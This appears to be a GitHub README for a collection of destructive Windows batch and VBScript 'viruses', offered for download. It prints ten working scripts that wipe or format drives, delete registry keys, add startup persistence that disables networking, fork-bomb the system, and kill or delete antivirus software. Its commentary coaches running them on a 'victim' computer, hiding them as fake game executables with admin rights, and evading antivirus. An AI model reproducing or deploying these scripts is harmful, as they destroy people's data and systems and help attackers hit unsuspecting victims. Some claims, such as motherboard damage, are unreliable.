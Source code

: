 <h1 align="center"><u> Batch Viruses</u></h1>

## An awesome collection of different kinds of Computer Viruses written in Batch File.

---
<img src="https://user-images.githubusercontent.com/73777108/149873561-ace30728-a82f-466b-8e43-0433c2c2e87d.png" align="right">

Create amazing yet Deadly viruses with small yet deadly codes. These can be created with just Notepad, and even be downloaded from here.
The viruses here are mostly very dangerous.

Compiled and Edited by [SparkScratch-P](https://sparkscratch-p.github.io/).


---
## ⚠️ALERT: 

- These are only for educational purposes. 
- Never try them on your own device until you are sure of what you are doing.
- Me, or any other contributor to this repo will not be responsible for any damage to your device.
- Handle files with care and awareness.
- Most damages can't be restored or recovered.

---

# The Awesome List of Computer Viruses!


### 1. Deletes all content of a drive


<details><summary> Read More </summary>
 
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus1.bat">virus1.bat</a></p>
<pre><code> @<span class="hljs-built_in">echo</span> off
<span class="hljs-built_in">del</span> <span class="hljs-variable">%systemdrive%</span>\*.* /f /s /q
shutdown -r -f -t <span class="hljs-number">00</span>
</code></pre>
 

  </details>



### 2. Time Bomb Virus, formats C: on 25 November 2023


<details><summary> Read More </summary>
  
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus2.bat">virus2.bat</a></p>
<pre><code><span class="hljs-keyword">If</span> <span class="hljs-variable">%date%</span> <span class="hljs-keyword">NEQ</span> <span class="hljs-number">2023</span>/<span class="hljs-number">11</span>/<span class="hljs-number">25</span> <span class="hljs-keyword">goto</span> <span class="hljs-keyword">exit</span>
<span class="hljs-built_in">format</span> C: /y &gt;<span class="hljs-built_in">nul</span>
:<span class="hljs-keyword">exit</span>
<span class="hljs-keyword">exit</span>
</code></pre><p>The Date, Time, and the Drive to be formatted can be changed.</p>
  
   

  </details>



### 3. Crash Ur Computer of Windows Xp


<details><summary> Read More </summary>

<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus3.bat">virus3.bat</a></p>
<pre><code><span class="hljs-keyword">Option</span> <span class="hljs-keyword">Explicit</span>

<span class="hljs-keyword">Dim</span> WSHShell
<span class="hljs-keyword">Set</span> WSHShell=Wscript.<span class="hljs-built_in">CreateObject</span>(“Wscript.Shell”)

<span class="hljs-keyword">Dim</span> x
<span class="hljs-keyword">For</span> x = <span class="hljs-number">1</span> <span class="hljs-keyword">to</span> <span class="hljs-number">100000000</span>
WSHShell.Run “Tourstart.exe”
<span class="hljs-keyword">Next</span>
</code></pre><p>This Virus works only for Windows XP, and besides formatting the drives, it damages the motherboard.</p>

   

  </details>

### 4.  Delete Key Registry Files 



<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus4.bat">virus4.bat</a></p>
<pre><code>@ECHO OFF
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.<span class="hljs-keyword">exe</span>
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/.dll
START <span class="hljs-keyword">reg</span> <span class="hljs-keyword">delete</span> HKCR/*
:MESSAGE
ECHO Your computer <span class="hljs-built_in">has</span> been fcked. Have <span class="hljs-keyword">a</span> nice day.
GOTO MESSAGE
</code></pre><p>This virus is extremely dangerous, don&#39;t run it on your device.</p>

  </details>

### 5. The Most Simple Virus To Crush The Window. Delete C:/


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus5.bat">virus5.bat</a></p>
<pre><code>@Echo <span class="hljs-literal">off</span>
Del C:<span class="hljs-string">\</span> *.* |y
</code></pre><p>Your device will not restart again, after it runs once!</p>

 
  </details>
 
 
### 6. Endless Notepads


<details><summary> Read More </summary>
 
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus6.bat">virus6.bat</a></p>
<pre><code>@<span class="hljs-built_in">ECHO</span> off
:top
<span class="hljs-built_in">START</span> <span class="hljs-variable">%SystemRoot%</span>\system32\notepad.exe
<span class="hljs-keyword">GOTO</span> top
</code></pre><p>This will open endless notepads, until ur system gets overloaded, hanged, and crashed!</p>
<p>NOTE : If you mistakenly open it, immediately power of and force shut down your computer, else it may crash, never to start again.</p>

 
  </details>
 

### 7. Disable Internet Permanently


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus7.bat">virus7.bat</a></p>
<pre><code><span class="hljs-symbol">echo</span> <span class="hljs-comment">@echo off&gt;c:windowswimn32.bat</span>
<span class="hljs-symbol">echo</span> <span class="hljs-keyword">break </span>off&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> ipconfig/release_all&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">echo</span> <span class="hljs-meta">end</span>&gt;&gt;c:windowswimn32.<span class="hljs-keyword">bat
</span><span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">reg</span> <span class="hljs-keyword">add </span>hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.<span class="hljs-keyword">bat </span>/f
<span class="hljs-symbol">echo</span> You Have <span class="hljs-keyword">Been </span>HACKED!
<span class="hljs-symbol">PAUSE</span>
</code></pre><p>Your device will never ever connect to the internet if this virus runs once!</p>
  
  </details>
 


### 8. Crazy Caps Lock


<details><summary> Read More </summary>
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus8.bat">virus8.bat</a></p>
<pre><code><span class="hljs-keyword">Set</span> wshShell <span class="hljs-comment">=wscript.CreateObject(</span>”<span class="hljs-comment">WScript.Shell</span>”<span class="hljs-comment">)</span>
do
wscript.sleep <span class="hljs-comment">100</span>
wshshell.sendkeys “<span class="hljs-comment">{CAPSLOCK}</span>”
loop
</code></pre><p>This repeatedly toggles your Caps Lock key. It is fully harmless and gets proper on reboot, or once the task is ended in Task Manager.</p>

   
  </details>


### 9. Endless Backspace



<details><summary> Read More </summary>
 
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus9.bat">virus9.bat</a></p>
<pre><code>MsgBox “Let’s go back <span class="hljs-selector-tag">a</span> few steps”
Set wshShell =wscript.CreateObject(”WScript.Shell”)
do
wscript<span class="hljs-selector-class">.sleep</span> <span class="hljs-number">100</span>
wshshell<span class="hljs-selector-class">.sendkeys</span> “{bs}”
loop
</code></pre><p>This will repeatedly keep pressing your Backspace, and will not let u type. It pops up a message; “Let’s go back a few steps”, and starts nuisence. Anyways, it is temporary, and harmless.</p>
    
  </details>


### 10. Disable the Antivirus



<details><summary> Read More </summary>
 
 
 <p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus10.bat">virus10.bat</a></p>
<pre><code>@ echo off
rem —
rem Permanently Kill Anti-Virus
net stop “Security Center”
netsh firewall <span class="hljs-keyword">set</span> opmode <span class="hljs-comment">mode=disable</span>
tskill /A av*
tskill /<span class="hljs-comment">A fire*</span>
tskill /A anti*
cls
tskill /<span class="hljs-comment">A spy*</span>
tskill /A bullguard
tskill /<span class="hljs-comment">A PersFw</span>
tskill /A KAV*
tskill /<span class="hljs-comment">A ZONEALARM</span>
tskill /A SAFEWEB
cls
tskill /<span class="hljs-comment">A OUTPOST</span>
tskill /A nv*
tskill /<span class="hljs-comment">A nav*</span>
tskill /A F-*
tskill /<span class="hljs-comment">A ESAFE</span>
tskill /A cle
cls
tskill /<span class="hljs-comment">A BLACKICE</span>
tskill /A def*
tskill /<span class="hljs-comment">A kav</span>
tskill /A kav*
tskill /<span class="hljs-comment">A avg*</span>
tskill /A ash*
cls
tskill /<span class="hljs-comment">A aswupdsv</span>
tskill /A ewid*
tskill /<span class="hljs-comment">A guard*</span>
tskill /A guar*
tskill /<span class="hljs-comment">A gcasDt*</span>
tskill /A msmp*
cls
tskill /<span class="hljs-comment">A mcafe*</span>
tskill /A mghtml
tskill /<span class="hljs-comment">A msiexec</span>
tskill /A outpost
tskill /<span class="hljs-comment">A isafe</span>
tskill /A zap*
cls
tskill /<span class="hljs-comment">A zauinst</span>
tskill /A upd*
tskill /<span class="hljs-comment">A zlclien*</span>
tskill /A minilog
tskill /<span class="hljs-comment">A cc*</span>
tskill /A norton*
cls
tskill /<span class="hljs-comment">A norton au*</span>
tskill /A ccc*
tskill /<span class="hljs-comment">A npfmn*</span>
tskill /A loge*
tskill /<span class="hljs-comment">A nisum*</span>
tskill /A issvc
tskill /<span class="hljs-comment">A tmp*</span>
cls
tskill /A tmn*
tskill /<span class="hljs-comment">A pcc*</span>
tskill /A cpd*
tskill /<span class="hljs-comment">A pop*</span>
tskill /A pav*
tskill /<span class="hljs-comment">A padmin</span>
cls
tskill /A panda*
tskill /<span class="hljs-comment">A avsch*</span>
tskill /A sche*
tskill /<span class="hljs-comment">A syman*</span>
tskill /A virus*
tskill /<span class="hljs-comment">A realm*</span>
cls
tskill /A sweep*
tskill /<span class="hljs-comment">A scan*</span>
tskill /A ad-*
tskill /<span class="hljs-comment">A safe*</span>
tskill /A avas*
tskill /<span class="hljs-comment">A norm*</span>
cls
tskill /A offg*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\alwils~<span class="hljs-number">1</span>\avast4\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Lavasoft\Ad-awa~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kasper~<span class="hljs-number">1</span>\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\trojan~<span class="hljs-number">1</span>\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\f-prot95\*.dll
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\tbav\*.dat
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avpersonal\*.vdf
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.cnt
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Mcafee\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">3</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\speedd~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\Norton~<span class="hljs-number">1</span>\*.*
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\Norton~<span class="hljs-number">1</span>\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgamsvr\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgemc\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgcc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avgupsvc\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\grisoft
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32krn\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nod32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\nood32
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kav\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kavmm\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\kaspersky\*.*
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewidoctrl\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\guard\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\ewido\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprsrv\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\pavprot\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\avengine\*.exe
cls
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\apvxdwin\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\webproxy\*.exe
del /<span class="hljs-comment">Q</span> /F C:\Program <span class="hljs-keyword">Files</span>\panda software\*.*
rem —
</code></pre><p>This will disable your antivirus for the timbing.  One can run it on Victim computer before loading any virus to it!</p>
     
  </details>
 
 
 
 ## This was just a list of ten. There are 25 More in our collection, here on GitHub! Just Have a look at thm:

- Task-kill some apps
- Command Line Notepad
- CD/ROM popper with malicious popups

<details><summary>Details</summary>

CD/ROM keeps opening  and closing ...an error msg keeps popping up  and when i turn on my PC an error msg shows so i have to press ok then open my account

</details>

- CD drive popup
- Stop current Internet access
- Format all Drives from C to J
- Delete Entire Registry
- Crash PC for ever
- Application bomber
- Delete System 32 Folder
- Disgust and shut down!
- Destroy-shutdown with popup
- Shutdowns Computer Everytime It Is Turned On
- Change useful random files to on-working txt files
- System meltdown
- Flood internet
- System Crash

<details><summary>Details</summary>
It will make you unable to use your PC and FORCE you to install Windows OS again. You will only be aware of the infiltration the next time you turn on your Computer! Use the latest version of “Bat To Exe Converter” and add Administrator manifest to it and make it Invisible application before converting it to .exe! Your victim doesn’t even know what is happening or what this virus did. Your trusted Antivirus can’t even detect it cause this file doesn’t work as normal viruses but the later damage will be way too much than what a couple of malware can do.
You may name it in a sexy way like GTA and choose the appropriate icon to attract your victim’s attention. But please, don’t try to be an ASS HAT with it.

</details>

- Matrix virus

<details><summary>Details</summary>

AS IT WAS TOO DANGEROUS, THE ACTUAL HEADER FILES FOR THIS SCRIPT ARE NOT GIVEN
AND IF U WANT TO TRY THIS SCRIPT U CAN JUST USE OF HEADER FILES SUCH AS STDIN, STDLIB, CONIO, AND STUFF LIKE THAT

</details>

- Bloat random folder
- User Account Bloatware
- Overload with unlimited background processes
- Killer and system crasher virus

<details><summary>Details</summary>

Here is a Batch File virus which can:

1.Copy itself into startup
2.Copy itself over one thousand times into random spots in your computer.
3.Hide its self and all other created files
4.Task kill MSN, Norton, Windows Explorer, Limewire.
5.Swap the left mouse button with the right one
6.Opens alert boxes
7.Changes the time to 12:00 and shuts down the computer
copy this code into notepad and save as Greatgame.bat(while saving select all files instead of text ).

</details>

- Show incognito history
- Delete entire system
- Command Line Notepad

<details><summary>Details</summary>
Form Of Switches

-s
Shuts down the PC.

-l
Logs off the current user.

-t nn
Indicates the duration of delay, in seconds, before performing the action.

-c “messagetext”
Displays a message in the System Shutdown window. A maximum of 127 characters can be used. The message must be enclosed in quotation marks.

-f
Forces any running applications to shut down.

-r
Reboots the PC. ..!!!

</details>

- Text bloater

### You can easily search out the desired virus by following the commit titles in `./viruses` directory in the `main` brach under this repo.

## How to Manage Viruses?

Most viruses are dangerous, and many of them are not detectable by modern Antiviruses. So, handle with care, and don't think, it is undetected, so you can freely run or use it. 
Be sure about what you ar doing. To avoid serious problems, the `#include` libraries of some have been removed, and others are fillet with micro glitches, that you need to fix before you run them. Remember, these are only for educational, and research purposes. Read the details about all viruses on this page!
 
  To get a virus, download the repo, and extract. Or, copy-paste the code from here to Notepad, and save as `.bat` (Text Encoding : ASNI). These viruses works only on Windows.

        <section id="downloads" align="center">
          
          <a href="https://codeload.github.com/SparkScratch-P/batch-virus/zip/refs/heads/main" class="btn btn-github"><span class="icon"></span>Download .Zip</a>
        </section>
      </div>
  
## Developers

 The viruses may be preexisting, but most of thm have been slight-edited, and posted here, often toincrease the impact factor.

Favourable points of development:

- New or more impactful viruses.
- Controlled viruses to work for good.
- Helpful viruses.
- Documentation of more viruses, 25 left, 10 done on this page.
- Report if it is working or not, improve glithes, report bugs.

     <section id="downloads" align="center">
          
          <a href="https://codeload.github.com/SparkScratch-P/batch-virus/zip/refs/heads/main" class="btn btn-github"><span class="icon"></span>Download .Zip</a>
        </section>
      </div>

### All contributions and PRs are welcome. 

<h1 align="center">⭐ Leave A Star If You Like It ⭐<h1>
<h1 align="center">❤️ Thank You ❤️<h1>
